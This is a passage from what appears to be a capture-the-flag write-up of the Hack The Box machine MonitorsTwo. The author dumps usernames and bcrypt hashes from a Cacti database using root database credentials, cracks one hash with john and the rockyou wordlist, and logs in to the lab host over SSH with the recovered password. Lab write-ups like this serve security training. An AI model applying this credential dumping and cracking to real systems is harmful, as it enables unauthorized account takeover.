 Within the `user_auth` table, we identify noteworthy columns: `username` and `password`.

```bash
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select username,password from user_auth"
< cacti -e "select username,password from user_auth"
username        password
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
guest   43e9a4ab75570f5b
marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

Of note, the user `marcus` emerges as a particularly intriguing entry, likely associated with the host machine.

The hash, initiated with `$2y$`, indicates its nature as a bcrypt hash.

```bash
┌──(kali㉿kali)-[~/Documents/htb/monitorstwo]
└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)     
1g 0:00:01:36 DONE (2023-08-06 10:07) 0.01035g/s 88.32p/s 88.32c/s 88.32C/s lilpimp..coucou
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Employing `john`, we successfully decrypt the hash, unveiling the password: `funkymonkey`.

```bash
┌──(kali㉿kali)-[~/Documents/htb/monitorstwo]
└─$ ssh marcus@10.10.11.211
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 06 Aug 2023 02:09:20 PM UTC

  System load:                      0.0
  Usage of /:                       63.1% of 6.73GB
  Memory usage:                     16%
  Swap usage:                       0%
  Processes:                        252
  Users logged in:                  1
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:6983


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
```